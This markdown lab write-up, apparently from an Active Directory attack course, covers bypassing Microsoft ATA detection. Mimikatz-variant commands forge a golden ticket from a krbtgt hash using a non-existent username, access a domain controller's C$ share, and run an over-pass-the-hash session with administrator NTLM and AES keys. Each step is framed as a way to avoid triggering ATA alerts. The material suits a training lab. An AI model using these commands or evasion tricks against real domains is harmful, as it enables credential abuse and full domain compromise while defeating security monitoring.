



# Hands-on 29: Bypassing ATA

- [Hands-on 29: Bypassing ATA](#hands-on-29-bypassing-ata)
  - [Tasks](#tasks)
  - [Create a golden ticket with NTLM hash of krbtgt without detection by ATA](#create-a-golden-ticket-with-ntlm-hash-of-krbtgt-without-detection-by-ata)
  - [Use AES keys of administrator to run a PowerShell session using OverPTH without detection in ATA](#use-aes-keys-of-administrator-to-run-a-powershell-session-using-overpth-without-detection-in-ata)

---

## Tasks

- Create a golden ticket with NTLM hash of krbtgt without detection by ATA. 
- Use AES keys of administrator to run a PowerShell session using OverPTH without detection in ATA.

<br/>

---

## Create a golden ticket with NTLM hash of krbtgt without detection by ATA

Note ATA (1.9) does not detect Golden tickets created with a non-existent username.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:atabypass /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /ptt" "exit"
```

  

<br/>

Try to access `us-dc`:

```
dir \\us-dc.us.techcorp.local\c$
```

  

<br/>

---

## Use AES keys of administrator to run a PowerShell session using OverPTH without detection in ATA

When doing Over-PTH, when providing all `NTLM`, `AES128` and `AES256`, it avoids detection by ATA.

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /ntlm:43b70d2d979805f419e02882997f8f3f /aes128:c9ae4aae409161db4cbb534f58457944 /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /run:cmd.exe" "exit"
```

  

<br/>

---